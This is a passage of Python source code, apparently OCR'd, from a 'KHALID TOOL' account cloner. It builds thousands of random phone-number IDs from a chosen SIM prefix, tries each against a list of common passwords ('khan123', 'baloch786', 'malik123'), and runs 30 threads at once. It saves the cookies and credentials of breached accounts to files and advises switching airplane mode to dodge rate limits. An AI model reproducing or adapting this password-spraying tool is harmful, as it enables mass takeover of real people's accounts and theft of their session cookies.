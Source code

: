                         print('\033[0;97m[•] \x1b[1;92mTOTAL ACCOUNTS \x1b[1;91m: \033[1;36m'+tl)
                        print(f'\033[0;97m[•]\033[1;32m CHOICE CODE    \x1b[1;91m:\033[1;36m '+code)
                        print("\033[0;97m[•] \x1b[1;92mCLONING STARTED\033[1;91m: \033[1;96mTIME \033[1;97m[\033[1;96m"+str(a)+"\033[1;91m:\033[1;96m"+str(lt()[4])+" "+ tag+"\x1b[1;97m]")
                        print('\033[0;97m[•]\x1b[1;92m KHALID TOOL CRACKING HAS BEEN STARTED')
                        linex() 
                        print('\x1b[1;97m[•] \x1b[1;96mUSE FLIGHT [\x1b[38;5;205mAIRPLANE\033[1;37m] \x1b[1;96mMODE IN EVERY 5 MINUTES')
                        linex()
                        for psx in user:
                                ids = code+psx
                                passlist = [psx,ids,'khankhan123','khan123','khan12345','baloch123','baloch786','khan123456','i love you','khanbaba','khankhan','baloch','freefire','malik786','malik1122','malik123','malik12345','malik123456']
                                KHALID.submit(rndm,ids,passlist)
                print('\033[1;37m')
                linex()
                print('\033[0;97m[•]\x1b[1;92m THE PROCESS HAS COMPLETED ')
                print('\033[0;97m[•]\x1b[1;92m TOTAL OK/CP ACCOUNTS \x1b[1;91m:\x1b[1;92m '+str(len(oks))+'\033[1;37m/\033[1;31m'+str(len(cps)))
                print('\033[0;97m[•]\033[1;32m COOKIES SAVED IN \033[1;31m: \033[1;32m/sdcard/KHALID-rndm-COOKIE.txt') 
                print('\033[0;97m[•]\033[1;32m OK ACCOUNTS SAVED IN \033[1;31m: \033[1;32m/sdcard/KHALID-rndm-OK.txt')
                linex()
                input('\033[0;97m[•]\x1b[1;92m PRESS ENTER TO BACK');clear()
                menu()
#_________[ AFG RANDOM CLONER ]______>>      
def afg():
                user=[]
                clear()
                print('\t\x1b[1;92mKHALID TOOL AFG RANDOM CLONER MENU')
                linex()
                print('\t\x1b[1;92mAFG SIM CODE MENU')
                linex()
                print('\033[1;32m AFG SIM CODE EXAMPLE \x1b[1;91m: \x1b[1;96m9377,9378,9379,.....etc')
                linex() 
                code = input('\033[0;97m[•] \033[1;32mPUT CODE \x1b[1;91m: \x1b[1;96m ')
                linex() 
                try:
                        limit = int(input('\t\x1b[1;92m        UIDS LIMIT MENU\n\033[1;97m====================================================\n\033[0;97m[•]\033[1;32m EXAMPLE \x1b[1;91m: \x1b[1;96m2000, 3000, 5000, 10000\n\033[1;97m====================================================\n\033[0;97m[•]\033[1;32m PUT LIMIT \x1b[1;91m: \x1b[1;96m'))
                except ValueError:
                        limit = 5000
                for nmbr in range(limit):
                        nmp = ''.join(random.choice(string.digits) for _ in range(7))
                        user.append(nmp)
                with tred(max_workers=30) as KHALID:     
                        clear()
                        tl = str(len(user))
                        print('\t\x1b[1;92mKHALID TOOL RANDOM AFG CRACKING MENU')
                        linex()
                        print('\033[0;97m[•] \x1b[1;92mTOTAL ACCOUNTS \x1b[1;91m: \033[1;36m'+tl)
                        print(f'\033[0;97m[•]\033[1;32m CHOICE CODE    \x1b[1;91m:\033[1;36m '+code)
                        print("\033[0;97m[•] \x1b[1;92mCLONING STARTED\033[1;91m: \033[1;96mTIME \033[1;97m[\033[1;96m"+str(a)+"\033[1;91m:\033[1;96m"+str(lt()[4])+" "+ tag+"\x1b[1;97m]")
                        print('\033[0;97m[•]\x1b[1;92m KHALID TOOL CRACKING HAS BEEN STARTED')
                        linex() 
                        print('\x1b[1;97m[•] \x1b[1;96mUSE FLIGHT [\x1b[38;5;205mAIRPLANE\033[1;37m] \x1b[1;96mMODE IN EVERY 5 MINUTES')
                        linex()
                        for psx in user: